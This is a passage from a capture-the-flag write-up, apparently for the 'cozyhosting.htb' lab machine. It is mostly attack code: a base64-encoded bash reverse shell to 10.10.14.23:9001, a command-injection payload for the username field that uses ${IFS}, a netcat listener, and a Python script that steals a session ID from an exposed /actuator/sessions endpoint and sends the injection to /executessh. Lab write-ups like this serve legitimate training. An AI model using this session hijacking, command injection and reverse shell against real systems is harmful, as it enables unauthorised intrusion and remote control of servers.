 [https://www.revshells.com/](https://www.revshells.com/)

We can forge a reverse shell command :

```shell
echo "bash -i >& /dev/tcp/10.10.14.23/9001 0>&1" | base64
```

Result:

```text
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yMy85MDAxIDA+JjEK
```

The complete payload (in the username field):

```
;echo${IFS}"YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yMy85MDAxIDA+JjEK"|base64${IFS}-d|bash;
```

We can start a listener on our host :

```shell
rlwrap -cAr nc -lvnp 9001
```

And we get a shell !

In order to get an automated way to get this reverse-shell (using session cookie, and trigger the payload), we can use this python script :


python code to get access :

```python
#!/usr/bin/python3

import base64, requests, sys, urllib

BaseUrl = 'http://cozyhosting.htb'

response = requests.get( BaseUrl + '/actuator/sessions')
print( "Response code: " + str( response.status_code ) )

if response.status_code != 200:
    sys.exit( -1 )

print( response.text )

sessions = response.json()
print( sessions )

# kanderson session key
targetSession = [k for k in sessions.items() if k[1]=='kanderson'][0][0]

print( 'targetSession: ' + targetSession )

payload = 'bash -i >& /dev/tcp/10.10.14.23/9001 0>&1;'
print( payload )
payloadB64 =  base64.b64encode( bytes( payload, 'ascii' ) ).decode('utf-8')
print( payloadB64 )
payloadAll = ';echo${IFS}"' + str(payloadB64) + '"|base64${IFS}-d|bash;' 

cookies = {'JSESSIONID': targetSession}

datas = { 'host': '127.0.0.1',
        'username': payloadAll
        }
print(cookies)
print(datas)
response = requests.post(  BaseUrl + '/executessh' , cookies=cookies, data=datas)
```